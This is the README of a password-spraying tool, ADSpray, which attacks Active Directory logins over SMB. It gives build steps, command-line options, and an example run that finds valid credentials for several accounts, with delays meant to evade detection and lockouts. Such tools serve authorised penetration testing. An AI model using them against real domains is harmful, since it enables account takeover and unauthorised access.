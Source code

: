 # ADSpray

ADSpray is a password spraying that can be used to spray passwords against Active Directory. Since it's written in Go, it should work on any operating system and any architecture. Operators can configure the amount of attempts and how long the software should wait to try another spray. In addition, the timeout between authentication attempts can be changed. A logon attempt is seen as valid when the user is able to log in, the account is disabled or when the status must change. All login attempts are logged to a text file. 

## Features

- **Password Spraying:** Attempts a specified number of passwords per user, per cycle.
- **SMB Protocol:** Operates over SMB for authentication attempts.
- **Configurable Delays:** Supports jitter (milliseconds) between attempts and sleep (minutes) between cycles to avoid detection and lockouts.
- **Logging:** Outputs results to a log file for review.

## Installation

```
git clone https://github.com/ShamelessNanoUser/ADSpray
cd ADSpray
go build 
```

## Usage

```
./ADSpray -h
Usage of ./ADSpray:
  -a, --attempts int       Amount of passwords to try during one spray cycle
  -t, --dc string          IP address of target domain controller
  -d, --domain string      FQDN of target domain
  -h, --help               Argument to show help
  -j, --jitter int         Sleep time in milliseconds between connection attempts, also known as jitter (default 50)
  -o, --output string      Output file for spray log (default "spray_log.txt")
  -p, --passwords string   Path to text file containing passwords to spray
  -s, --sleep int          Sleep time in minutes between spray cycles
  -u, --users string       Path to text file containing usernames to spray against
```

## Example

```
./ADSpray -d howdoiexitvim.local -t 192.168.1.0 -u users.txt -p passwords.txt -a 3 -s 15 
Did you check if there is a Fine Grained Password Policy in place? (y/n) y
ADSpray is now gonna start spraying 2 passwords per 10 minutes, continue? (y/n) y
File spray_log.txt exists, overwrite? (y/n) y
[+] Spraying the password Password01
[+] Spraying the password Password01!
[!] Found valid credentials: john:Password01!
[!] Found valid credentials: lucas:Password01! - NT_STATUS_DISABLED
[!] Found valid credentials: noah:Password01! - STATUS_PASSWORD_EXPIRED
[+] Spraying the password Password123
[+] Reached maximum attempts, sleeping for: 15:00

```
